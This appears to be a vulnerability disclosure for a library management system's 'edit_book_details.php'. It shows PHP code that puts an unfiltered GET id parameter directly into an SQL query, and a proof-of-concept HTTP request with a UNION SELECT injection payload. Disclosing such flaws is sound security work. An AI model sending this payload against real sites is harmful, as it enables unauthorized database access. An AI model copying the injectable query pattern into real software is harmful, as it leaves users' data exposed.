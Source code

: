 ### Vulnerability file address

`staff/edit_book_details.php` from line 106

The incoming $bookid variable is not filtered, there is sql injection

```php
......
......
......
$bookid = $_GET['id'];
$sql = "select * from LMS.book where Bookid='$bookid'";

$result=$conn->query($sql);
$row=$result->fetch_assoc();
......
......
......
```

### POC

not exists any precondition

```http
GET /staff/edit_book_details.php?id=1'+union+select+1,2,3,4,5,6,7,8,9,user()+%23 HTTP/1.1
Host: www.lms.net
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:94.0) Gecko/20100101 Firefox/94.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

### Attack results pictures

![image-20220702202513584](https://xianyu123images.oss-cn-hangzhou.aliyuncs.com/20220702202513.png)

